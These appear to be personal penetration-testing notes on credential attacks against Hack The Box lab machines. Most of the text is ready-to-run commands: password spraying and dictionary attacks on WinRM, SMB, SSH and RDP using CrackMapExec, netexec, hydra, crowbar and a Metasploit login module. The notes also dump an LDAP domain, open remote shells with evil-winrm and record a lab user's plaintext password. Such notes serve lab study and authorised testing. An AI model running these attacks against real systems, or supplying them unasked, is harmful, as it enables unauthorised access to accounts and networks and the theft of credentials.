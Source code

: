 #auth 

https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

##### [[la1n-notes/services/SMB/SMB|SMB]], [[la1n-notes/Web/Injecttions/LDAP/LDAP]], [[mssql]], etc.
https://github.com/byt3bl33d3r/CrackMapExec
#CrackMapExec 
```shell
sudo apt-get -y install crackmapexec

# Dictionary-attack / Password-Spraying
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell
crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```
#### [[la1n-notes/services/SMB/SMB|SMB]] enumeration
list shares
```bash
netexec smb 10.129.128.107  -u michael.wrightson -p Cicada$M6Corpb*@Lp#nZpsmbmap -H 10.129.128.107 --shares

nxc smb $ip -u $user -p $pwd --shares
```
#### #ldap 
Dump everything (domains/users/etc)
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.128.107 -o dump
```


#### #evil-winrm 
#shell [[bind shell]]
to log in and get the shell:
```bash
sudo gem install evil-winrm
evil-winrm -i 10.129.42.197 -u user -p password
```

[[hydra]]
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list rdp://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```

```bash
hydra -L user.list -P password.list 10.129.42.197 smb
```
##### [[RDP]]
```bash
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Dictionary attack on [[SMB]] use [[metasploit]]
```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list

set SMB_USER jason
set USER_FILE username.list

set stop_on_success true
set RHOST STMIP
run
```

### [[RDP]] Password Spraying
https://github.com/galkan/crowbar
Installation:
```bash
sudo apt install -y crowbar
# or
git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt
```

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

